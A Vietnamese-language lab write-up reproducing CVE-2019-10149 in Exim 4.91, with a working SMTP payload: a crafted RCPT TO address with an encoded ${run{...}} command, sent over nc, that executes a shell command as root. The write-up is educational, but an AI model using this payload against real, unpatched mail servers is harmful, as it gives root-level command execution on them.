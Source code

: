 ```yaml
---
date: 2019-06-14
title: CVE_2019-10149
categories:
  - CVE_2019-10149
description: CVE-2019-10149 Critical Remote Command Execution In Exim
author: minhnv
tags: [CVE_2019-10149]
type: Document
---
```


# CVE-2019-10149: Critical Remote Command Execution In Exim

CVE-2019-10149 là một lỗ hổng thực thi lệnh từ xa được giới thiệu trong phiên bản Exim trước trước phiên bản 4.92. Trong cấu hình mặc định, kẻ tấn công cục bộ có khả năng khai thác lỗ hổng này để thực thi các lệnh như người dùng root ngay bằng cách gửi thư đến một địa chỉ thư được tạo thủ công đặc biệt trên localhost.

<div style="text-align:center"><img src="https://i.imgur.com/dET1LTn.png"></div>


## Môi trường LAB 

`Exim version 4.91`

## Thực hiện 

- Mục tiêu tạo ra file `/tmp/id` chứa thông tin id user 

- Ban đầu kiểm tra xem có tồn tại file /tmp/id

```
[root@testexim ~]# cat /tmp/id 
cat: /tmp/id: No such file or directory
[root@testexim ~]# 
```

- Trên user `minhkma` thực hiện 

```
RCPT TO:<${run{\x2Fbin\x2Fsh\t-c\t\x22id\x3E\x3E\x2Ftmp\x2Fid\x22}}
```

```
[minhkma@testexim ~]$ nc 127.0.0.1 25
220-cpanel.localhost.localdomain ESMTP Exim 4.91 #1 Fri, 14 Jun 2019 16:50:25 +0700 
220-We do not authorize the use of this system to transport unsolicited, 
220 and/or bulk e-mail.
HELO localhost
250 cpanel.localhost.localdomain Hello localhost [127.0.0.1]
MAIL FROM:<>
250 OK
RCPT TO:<${run{\x2Fbin\x2Fsh\t-c\t\x22id\x3E\x3E\x2Ftmp\x2Fid\x22}}@localhost>    
250 Accepted
DATA
354 Enter message, ending with "." on a line by itself
Received: 1
Received: 2
Received: 3
Received: 4
Received: 5
Received: 6
Received: 7
Received: 8
Received: 9
Received: 10
Received: 11
Received: 12
Received: 13
Received: 14
Received: 15
Received: 16
Received: 17
Received: 18
Received: 19
Received: 20
Received: 21
Received: 22
Received: 23
Received: 24
Received: 25
Received: 26
Received: 27
Received: 28
Received: 29
Received: 30
Received: 31

.
250 OK id=1hbirS-0000mL-ER
QUIT
221 cpanel.localhost.localdomain closing connection


Ncat: Broken pipe.
```

- Sau đó quay lại kiểm tra 

```
[root@testexim ~]# cat /tmp/id 
uid=0(root) gid=12(mail) groups=12(mail)
uid=0(root) gid=12(mail) groups=12(mail)
```

- Tài liệu tham khảo 

    + https://www.exploit-db.com/exploits/46974
    + https://www.zdnet.com/article/exim-email-servers-are-now-under-attack/
    + https://www.openwall.com/lists/oss-security/2019/06/06/1